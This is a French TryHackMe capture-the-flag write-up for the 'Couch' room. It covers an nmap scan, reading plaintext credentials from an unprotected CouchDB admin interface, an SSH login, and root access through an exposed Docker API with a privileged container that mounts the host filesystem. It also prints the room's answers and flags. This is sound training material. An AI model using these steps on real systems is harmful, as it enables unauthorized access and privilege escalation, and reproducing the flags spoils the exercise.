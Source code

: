 # Couch #

## Task 1 Resy Set Go ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.111.86 couch.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A couch.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 19:52 CEST
Nmap scan report for couch.thm (10.10.111.86)
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/16%OT=22%CT=1%CU=41985%PV=Y%DS=2%DC=T%G=Y%TM=611AA62
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   31.86 ms 10.9.0.1
2   31.99 ms couch.thm (10.10.111.86)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.86 seconds
```

D'après les résultats de nmap on voit 2 services :    
Le service SSH sur le port 22.    
Le service HTTP sur le port 5984.  

**Scan the machine. How many ports are open?**

On voit deux ports ouverts.  

Réponse : 2    

**What is the database management system installed on the server?**

Sur les résultats de nmap la base de donnée s'appelle  CouchDB.    

Réponse : CouchDB     

**What port is the database management system running on?**

Nmap nous indique que CouchDB est sur le port 5984.   

Réponse : 5984    

**What is the version of the management system installed on the server?**

Nmap nous indique que la version de CouchDB est : 1.6.1    

Réponse : 1.6.1   

**What is the path for the web administration tool for this database management system?**

En regardant la documentation de couchDB [documentation](https://guide.couchdb.org/draft/tour.html). 

On trouve le chemin pour administrer couchDB.    

Réponse : _utils

**What is the path to list all databases in the web browser of the database management system?**

En regardant la documentation de couchDB [documentation](https://guide.couchdb.org/draft/tour.html). 

On trouve le chemin pour voir toutes les bases de données.   

Réponse : \/_all_dbs  

**What are the credentials found in the web administration tool?**

![page1](./Task1-01.png)

Dans la basse de donnée secret on trouve les identifiants.    

Réponse : atena:t4qfzcc4qN##    

**Compromise the machine and locate user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh atena@couch.thm 
atena@couch.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```

On se connect sur le SSH avec les identifiants trouvés dans la basse de donnée.   
On lit le fichier user.txt    

Réponse : THM{1ns3cure_couchdb}  

**Escalate privileges and obtain root.txt**


```bash
atena@ubuntu:~$ cat .bash_history | tail
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

A la fin du fichier .bash_history on voit que docker est utilisé pour avoir un accès en root.   

```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cat /mnt/root/root.txt 
THM{RCE_us1ng_Docker_API}

```

On exécuter la commande docker et on obtient un shell avec les droits root.    
On lit le fichier root.txt.  

La réponse est : THM{RCE_us1ng_Docker_API}   